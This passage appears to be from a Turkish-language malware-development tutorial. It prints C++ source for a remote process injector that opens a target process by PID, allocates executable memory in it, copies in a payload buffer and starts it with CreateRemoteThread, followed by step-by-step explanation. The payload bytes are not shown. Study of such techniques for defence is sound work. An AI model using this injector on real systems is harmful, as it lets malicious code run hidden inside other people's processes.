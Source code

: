 ```cpp

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, 
  my_payload_len, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, 
  my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, 
  NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

İlk olarak, işlemin PID'sini almanız gerekiyor. Bu PID'yi kendiniz girebilirsiniz.     

Sonra, `Kernel32` kütüphanesi tarafından sağlanan [OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) fonksiyonuyla işlemi açın:    

![open process](./images/6/2021-09-19_00-16.png){width="75%"}

Ardından, `VirtualAllocEx` kullanarak uzak işlem için bir bellek tamponu ayırabilirsiniz **(1)**:

![injection 5](./images/6/2021-09-19_00-31.png){width="75%"}
